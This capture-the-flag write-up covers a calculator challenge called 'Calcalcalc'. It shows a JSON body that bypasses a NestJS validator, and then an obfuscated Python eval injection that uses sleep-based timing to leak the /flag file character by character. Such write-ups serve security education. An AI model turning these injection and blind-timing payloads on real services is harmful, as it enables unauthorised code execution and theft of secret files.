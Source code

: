 Calcalcalc
=====================

## Challenge

It's an unbreakable and reliable calculator... I think.

## Writeup

### Part 1

Read ``calculate.model.ts``, we know all user input will be validated before the controller gets.

```typescript
export default class CalculateModel {

  @IsNotEmpty()
  @ExpressionValidator(15, {
    message: 'Invalid input',
  })
  public readonly expression: string;

  @IsBoolean()
  public readonly isVip: boolean = false;
}

```

From ``ExpressionValidator``, we will know expression.length can be more than 15 bytes when ``isVip === true``, so the first task is to let ``isVip = true``.

Read the source code of ``class-validator``:
https://github.com/typestack/class-validator/blob/58a33e02fb5e77dde19ba5ca8de2197c9bc127e9/src/validation/Validator.ts#L323
```typescript
return value instanceof Boolean || typeof value === "boolean";
```

Sadly it's JavaScript runtime type. Nestjs will not auto convert ``'true'`` to ``true``(Nestjs is **NOT** Spring), so append ``isVip=true`` after post data is useless. However,
Nestjs + expressjs support ``json`` and ``urlencoded`` as its body by default.
https://github.com/nestjs/nest/blob/205d73721402fb508ce63d7f71bc2a5584a2f4b6/packages/platform-express/adapters/express-adapter.ts#L125
```typescript
    const parserMiddleware = {
      jsonParser: bodyParser.json(),
      urlencodedParser: bodyParser.urlencoded({ extended: true }),
    };
```

Just bypass it:
```http
Content-Type: application/json

{"expression":"MORE_THAN_15_BYTES_STRING", "isVip": true}
```

### Part 2

No intended solution... So this challenge will be reused XD

Unintended solution is timing attack:

```python
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(116)+chr(105)+chr(109)+chr(101)+chr(39)+chr(41)+chr(46)+chr(115)+chr(108)+chr(101)+chr(101)+chr(112)+chr(40)+chr(51)+chr(41)+chr(32)+chr(105)+chr(102)+chr(32)+chr(111)+chr(114)+chr(100)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(91)+chr(51)+chr(93)+chr(41)+chr(32)+chr(62)+chr(32)+chr(54)+chr(55)+chr(32)+chr(101)+chr(108)+chr(115)+chr(101)+chr(32)+chr(78)+chr(111)+chr(110)+chr(101))
```

means

```python
__import__('time').sleep(3) if ord(open('/flag').read()[3]) > 67 else None
```